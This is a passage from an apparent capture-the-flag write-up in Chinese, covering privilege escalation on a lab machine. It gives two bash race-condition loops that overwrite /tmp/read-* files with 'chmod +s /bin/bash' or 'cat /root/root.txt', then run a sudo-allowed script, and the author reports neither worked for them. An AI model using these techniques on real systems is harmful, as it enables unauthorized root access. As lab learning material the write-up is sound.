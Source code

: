 所得数字为`9740252204`。运行一下，发现是正确的！

### 脚本提权

是群主大大贡献的：

```bash
# 一代
for i in $(seq 100000);
do
cat /tmp/read-* 2>/dev/null;
filename=$(ls /tmp/read*)
[[ ! -z "$filename" ]] && echo 'chmod +s /bin/bash'  > $filename
done
```

1. 使用`seq 100000`生成一个从1到100000的序列。
2. 在每次循环中，使用`cat /tmp/read-* 2>/dev/null`命令尝试读取`/tmp/read-*`匹配的文件，并将其内容输出到标准输出。`2>/dev/null`将标准错误重定向到空设备，以避免显示任何可能的错误消息。
3. 使用`ls /tmp/read*`命令列出`/tmp/read*`匹配的文件，并将结果存储在变量`filename`中。
4. 如果`filename`变量不为空（即存在匹配的文件），则将字符串`chmod +s /bin/bash`写入到匹配的文件中。
5. 循环重复上述步骤，直到循环次数达到100000。

要求：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403190249819.png" alt="image-20240314201253891" style="zoom: 50%;" />

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403190249820.png" alt="image-20240314201449365" style="zoom: 50%;" />

```text
然后ls -l /bin/bash
```

这个我没成功，正好群主大大又开出了二代：

```bash
# 二代
for i in $(seq 100000);
do
filename=$(ls /tmp/read* 2>/dev/null)
[[ ! -z "$filename" ]] && echo 'cat /root/root.txt'  > $filename 2>/dev/null
done
```

```bash
sudo /scripts/Quasar 9740252204
```

1. 使用`seq 100000`生成一个从1到100000的序列。
2. 在每次循环中，使用`ls /tmp/read* 2>/dev/null`命令列出`/tmp/read*`匹配的文件，并将结果存储在变量`filename`中。`2>/dev/null`将标准错误重定向到空设备，以避免显示任何可能的错误消息。
3. 如果`filename`变量不为空（即存在匹配的文件），则将字符串`cat /root/root.txt`写入到匹配的文件中。这会尝试将`/root/root.txt`的内容写入到匹配的文件中。
4. 循环重复上述步骤，直到循环次数达到100000

尝试一下！但是我一直使用不了：
